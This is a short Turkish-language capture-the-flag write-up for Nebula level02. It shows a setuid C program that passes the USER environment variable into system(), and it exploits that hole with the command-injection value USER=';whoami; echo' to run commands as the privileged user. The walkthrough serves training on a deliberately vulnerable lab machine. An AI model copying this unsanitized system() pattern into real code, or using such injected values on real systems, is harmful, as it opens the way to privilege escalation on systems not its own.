 ```bash
ssh level02@192.168.154.137 # [nebulaIP]
```
Bu seviyede elimizde yine bir kod var ve zafiyeti bulmamızı istiyor.
```c
int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```
Burada ilgimizi çeken yine setresuid ve USER çevre değişkeninin buffera alınıp system de çağırılması. Çevre değişkenini yukarıdaki formatla uyumlu olacak şekilde manupüle edebiliriz ve yetkili kullanıcı olarak istediğimiz komutu çalıştırabiliriz.

```bash
export USER=";whoami; echo"
```

![alt text](nebulaPNG/nebula02.png "nebula02")
